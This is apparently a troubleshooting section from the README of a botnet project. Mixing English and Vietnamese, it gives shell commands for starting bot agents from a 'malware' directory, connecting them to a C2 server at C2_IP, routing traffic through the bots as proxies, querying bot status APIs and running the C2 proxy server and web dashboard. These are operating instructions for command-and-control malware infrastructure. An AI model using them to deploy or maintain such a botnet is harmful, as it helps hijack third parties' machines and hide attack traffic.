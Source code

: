 ## 🔧 Troubleshooting

### Common Issues:

#### 1. Bot Không Kết Nối:
```bash
# Kiểm tra C2 server
netstat -tlnp | grep 7777

# Kiểm tra bot connection
python3 bane/malware/bot_agent.py --c2-host C2_IP --c2-port 7777
```

#### 2. Proxy Không Hoạt Động:
```bash
# Kiểm tra proxy port
netstat -tlnp | grep 8080

# Test proxy connection
curl --proxy http://C2_IP:8080 http://httpbin.org/ip
```

#### 3. Load Balancer Không Chọn Bot:
```bash
# Kiểm tra bot status
curl http://C2_IP:5000/api/bots

# Kiểm tra load balancer
curl http://C2_IP:5000/api/load_balancer
```

#### 4. Health Score Thấp:
```bash
# Kiểm tra bot health
curl http://C2_IP:5000/api/status

# Restart bot nếu cần
pkill -f bot_agent.py
python3 bane/malware/bot_agent.py --c2-host C2_IP --c2-port 7777
```

### Debug Mode:

```bash
# C2 Proxy Server với debug
python3 scripts/c2_proxy_server.py --c2-host 0.0.0.0 --c2-port 7777 --proxy-port 8080

# Web Dashboard với debug
python3 scripts/proxy_web_dashboard.py --host 0.0.0.0 --port 5000 --debug
```

## 🔒 Security
